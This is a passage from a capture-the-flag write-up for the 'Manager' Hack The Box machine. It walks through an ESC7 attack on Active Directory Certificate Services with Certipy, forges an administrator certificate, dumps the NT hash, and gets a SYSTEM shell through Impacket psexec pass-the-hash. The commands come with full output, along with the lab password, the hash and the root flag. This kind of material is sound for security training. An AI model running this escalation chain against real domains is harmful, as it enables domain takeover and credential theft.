                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
[...]
```

Certificate templates "WebServer" e "SubCA" have the "ENROLLEE_SUPPLIES_SUBJECT" flag set, but they are not vulnerable because the "Enrollment Rights"  - which principals can request a certificate – are "Enterprise Admins" and "Domain Admins" this singnifies that through the current user you cannot request certificates.

For not knowing how to read or write, [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy) was also run remotely.

```shell
$ certipy find -vulnerable -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20240214161201_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240214161201_Certipy.txt'
[*] Saved JSON output to '20240214161201_Certipy.json'

$ cat 20240214161201_Certipy.txt                                                               
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```

The current "Raven" user has the "ManageCa" right. Certify was able to detect the ESC7 vulnerability regarding ADCS. ESC7 represents the code for one of the attacks that exploits ADCS shown in the [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)whitepaper.



We need to document how to exploit ESC7 for domain escalation. There is an excellent resource available at: [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).

The various steps are performed, specifically "Attack 2" (suing certipy). First step: grant yourself the "Manage Certificates" access right by adding your user as a new officer.

```shell
$ certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -add-officer 'raven'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

The image below shows the effect of the command: raven, now has the right "Manage Certificates".



Second step: check whether the "SubCA" template is enabled.

```shell
$ certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-DC01-CA':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
```

"SubCA" template results enabled. Completed prerequisites. 

Third step: we can start by requesting a certificate based on the SubCA template. This request will be denied, but we will save the private key and note down the request ID.

```shell
$ certipy req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -target 10.10.11.236 -ca 'manager-DC01-CA' -template SubCA -upn administrator@manager.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

Request ID is 13.  The command above causes the "Manage Certificates" right to be lost (must figure out if it is a box problem or is it really so) so the first step is repeated since both rights are needed, i.e., "Manage Certificates" and "ManageCA."

Fourth step: we can then **issue the failed certificate** request with the `ca` command and the `-issue-request <request ID>` parameter.

```shell
$ certipy ca -ca 'manager-DC01-CA' -issue-request 13 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Fifth and last step:  we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```shell
$ certipy req -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -target 10.10.11.236 -ca 'manager-DC01-CA' -retrieve 13  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 13
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

A certificate was obtained for the domain Administrator user.



You use the certificate to authenticate with the Domain Controller as an "Administrator" user and obtain a ticket for that user.

```shell
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

You get the error "Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)". This is a typical error that occurs when the Linux machine's time is not synchronized with the Domain Controller's time. "npdate" can be used to synchronize the time.

The command is repeated by synchronizing the time with the Domain Controller.

```shell
$ sudo ntpdate 10.10.11.236 && certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
2024-02-15 01:03:32.997657 (+0100) +25202.003228 +/- 0.023484 10.10.11.236 s1 no-leap
CLOCK: time stepped by 25202.003228
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```



It works! In addition, certipy was able to dump the password hash of the Administrator user. Through pass-the-hash it is possible to obtain a privileged shell.

```shell
$ python3 examples/psexec.py 'Administrator'@10.10.11.236 -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Requesting shares on 10.10.11.236.....
[*] Found writable share ADMIN$
[*] Uploading file lXDIQNBJ.exe
[*] Opening SVCManager on 10.10.11.236.....
[*] Creating service cUwj on 10.10.11.236.....
[*] Starting service cUwj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

I am IN!!!

***root.txt***: 98eccb3194f9efc3561883ba455ec3ed


